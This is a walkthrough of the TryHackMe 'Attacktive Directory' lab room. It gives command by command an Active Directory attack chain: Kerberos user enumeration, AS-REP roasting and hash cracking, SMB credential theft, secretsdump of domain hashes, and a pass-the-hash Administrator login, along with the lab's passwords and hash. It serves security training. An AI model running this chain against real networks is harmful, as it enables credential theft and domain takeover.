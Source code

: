 # Attacktive Directory

**Room Link:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)



## Walkthrough

### Setup

#### Installing Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#### Installing Bloodhound and Neo4j

```
apt install bloodhound neo4j
```

#### Installing kerbrute

```
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
make all
```

### username and password custom lists for this machine

```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

### Welcome to Attacktive Directory

#### **Initial Scan**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (3).png" alt=""><figcaption></figcaption></figure>

#### Scan all ports

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

### netbios-ssn port 139 & microsoft-ds port 445

```
enum4linux $VICTIM
```

The NetBIOS-Domain Name of the machine

<figure><img src="../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

### Enumerating Users via Kerberos port 88

```
kerbrute/dist/kerbrute_linux_386 userenum --dc=$VICTIM -d=spookysec.local. userlist.txt
```

<figure><img src="../../.gitbook/assets/image (27) (3).png" alt=""><figcaption></figcaption></figure>

### Abusing Kerberos

**validusers.txt**

```
james
svc-admin
robin
darkstar
administrator
backup
paradox
```

svc-admin allows us to get a ticket without a password. The hash type is Kerberos 5 etype 23 AS-REP.

```
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip $VICTIM spookysec.local/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

Cracking the hash we can see the password is management2005

```
hashcat -m18200 hash.txt passwordlist.txt
hashcat -m18200 hash.txt passwordlist.txt --show
```

<figure><img src="../../.gitbook/assets/image (28) (4).png" alt=""><figcaption></figcaption></figure>

### Back to the Basics

### netbios-ssn port 139 & microsoft-ds port 445

```
smbclient -L $VICTIM -U "svc-admin"
Enter WORKGROUP\svc-admin's password: management2005
```

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\$VICTIM\\backup -U "svc-admin"
smb: \> dir
smb: \> get backup_credentials.txt 
```

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

Its a base64 encoded username and password. backup@spookysec.local:backup2517860

```
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

### Elevating Privileges within the Domain - **WinRM** port5985

```
python3 /usr/local/bin/secretsdump.py  spookysec.local/backup:backup2517860@$VICTIM > allhashes.txt
cat allhashes.txt | awk -F : '{print $1 ":" $3}' | sort | uniq
```



### Flag Submission PaneLogin as Administrator&#x20;

```
evil-winrm -i $VICTIM -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
